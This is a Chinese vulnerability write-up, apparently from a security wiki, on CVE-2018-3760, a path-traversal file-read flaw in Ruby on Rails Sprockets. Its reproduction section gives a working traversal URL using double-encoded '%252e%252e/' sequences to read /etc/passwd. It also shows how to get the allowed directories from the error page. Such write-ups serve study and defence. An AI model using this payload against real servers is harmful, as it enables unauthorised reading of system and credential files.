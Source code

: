 （CVE-2018-3760）Ruby On Rails 任意文件读取漏洞
===============================================

一、漏洞简介
------------

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On
Rails是著名的Ruby
Web开发框架，Sprockets是编译及存储静态资源文件的Ruby库。

在3.7.1及之前的版本中，存在一处因为二次解码导致的路径穿越中断，攻击者可以利用`%252e%252e/`来跨越到根目录，读取或执行目标服务器上任意文件。

二、漏洞影响
------------

4.0.0.beta7及更低版本3.7.1及更低版本2.12.4及更低版本

三、复现过程
------------

### 漏洞分析

漏洞原理问题出在`sprockets`，它用来检查 JavaScript
文件的相互依赖关系，用以优化网页中引入的js文件，以避免加载不必要的js文件。当访问如`http://www.0-sec.org:3000/assets/foo.js`时，会进入`server.rb`

### 漏洞浮现

直接访问`http://www.0-sec.org:3000/assets/file:%2f%2f/etc/passwd`，将会报错，因为文件`/etc/passwd`不在允许的目录中：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-3760)RubyOnRails任意文件读取漏洞/media/rId26.png)

我们通过报错页面，可获得允许的目录列表。随便选择其中一个目录，如`/usr/src/blog/app/assets/images`，然后使用`%252e%252e/`向上一层替换，最后读取`/etc/passwd`：

    http://www.0-sec.org:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-3760)RubyOnRails任意文件读取漏洞/media/rId27.png)
